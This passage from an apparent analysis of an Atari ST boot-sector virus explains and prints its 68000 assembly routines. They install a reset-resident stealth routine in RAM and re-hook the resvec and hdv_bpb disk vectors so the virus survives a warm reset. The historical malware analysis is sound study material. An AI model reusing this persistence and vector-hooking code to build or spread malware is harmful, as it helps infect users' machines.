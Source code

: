 The `RESET_VECTOR` routine, as set and enabled previously, will be call in case of a warm reset. As in many viruses, it will setup the stealth reset proof routine:

- Create the required header at a 0x200 RAM location boundary: `0x51200`
  - Set the magic number.
  - Set the routine address.
  - Copy the `INSTALL_HDV_BPB_VECTOR` routine.
  - Adjust the word checksum to `0x5678` on the double page.
  - Exit by calling the old reset vector.

```asm
; ----------------------------------------------------------------------------------------------------------
; RESET_VECTOR
; ----------------------------------------------------------------------------------------------------------
RESET_VECTOR:
        LEA       RESIDENT_PROGRAM_LOCATION,A1      ; A1 = RESIDENT_PROGRAM_LOCATION ($51200), that's in RAM, at a $200 boundary
        MOVE.L    A1,D1                             ; D1 = RESIDENT_PROGRAM_LOCATION value
        MOVE.L    #RESIDENT_MAGIC,(A1)+             ; set magic number
        MOVE.L    D1,(A1)+                          ; set address value
        MOVE.W    #8,D0
        LEA       INSTALL_HDV_BPB_VECTOR(PC),A3     ; A3 = INSTALL_HDV_BPB_VECTOR
.copy:
        MOVE.W    (A3)+,(A1)+                       ; copy 8 words (16 bytes)
        DBF       D0,.copy

        MOVEA.L   D1,A3
        MOVE.W    #RESIDENT_CHK,D0
        MOVE.W    #$FE,D2                           ; d2 = 254
.calc_resident_checksum:
        SUB.W     (A3)+,D0
        DBF       D2,.calc_resident_checksum
        MOVE.W    D0,(A3)                           ; add checksum
        CLR.B     RESVALID.W
OLD_RESET_VECTOR:
        JMP       (A6)                              ; call old reset vector

```

### The undocumented reset resistant stealth routine

The stealth routine will basically do only one thing when triggered after a warm reset: re-set the `resvec` enable register and the `hdv_bpb` vector (ok, that's 2...)

```asm
; ----------------------------------------------------------------------------------------------------------
; INSTALL_HDV_BPB_VECTOR
; ----------------------------------------------------------------------------------------------------------
INSTALL_HDV_BPB_VECTOR:
        MOVE.L   #RESVEC_MAGIC, RESVALID.W
        MOVE.L   #HDV_BPB_VECTOR_ADDR, HDV_BPB.W      ; set hdv_pbp new vector to HDV_BPB_VECTOR_ADDR ($1AC)
        RTS
```
